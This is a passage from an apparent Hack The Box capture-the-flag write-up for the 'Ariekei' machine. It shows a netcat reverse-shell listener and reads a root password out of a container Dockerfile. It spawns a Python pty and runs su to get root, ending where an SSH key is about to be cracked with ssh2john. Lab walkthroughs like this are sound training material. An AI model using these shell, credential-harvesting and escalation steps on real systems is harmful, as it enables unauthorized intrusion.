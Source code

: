 ```
$ nc -lvp 6662
Listening on [0.0.0.0] (family 0, port 6662)
Connection from [127.0.0.1] port 6662 [tcp/*] accepted (family 2, sport 38186)
www-data@beehive:/usr/lib/cgi-bin$ id 
id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@beehive:/usr/lib/cgi-bin$ hostname
hostname
beehive.ariekei.htb
www-data@beehive:/usr/lib/cgi-bin$ 

```

Now we still aren't out of the container world yet, but if we attempt to browse any sensitive files in `/home/spanishdancer`, we get permissions denied. To elevate our privileges on the container, we can use the root password we know if set from the `Dockerfile`

```
www-data@beehive:/home/spanishdancer$ cat /common/containers/blog-test/Dockerfile
<ishdancer$ cat /common/containers/blog-test/Dockerfile                      
FROM internal_htb/docker-apache
RUN echo "root:Ib3!kTEvYw6*P7s" | chpasswd
RUN apt-get update 
RUN apt-get install python -y
RUN mkdir /common 

```

Start a pty shell with python, then su to root:

```
www-data@beehive:/home/spanishdancer$ cat /common/containers/blog-test/Dockerfile
           
FROM internal_htb/docker-apache
RUN echo "root:Ib3!kTEvYw6*P7s" | chpasswd
RUN apt-get update 
RUN apt-get install python -y
RUN mkdir /common 
www-data@beehive:/home/spanishdancer$ 

www-data@beehive:/home/spanishdancer$ python -c 'import pty; pty.spawn("/bin/sh")'
                  
$ su 
su 
Password: Ib3!kTEvYw6*P7s

root@beehive:/home/spanishdancer# 

root@beehive:/home/spanishdancer# 
```


Copy paste the ssh private key, but its password protected, so we'll have to crack it locally with ssh2john: 
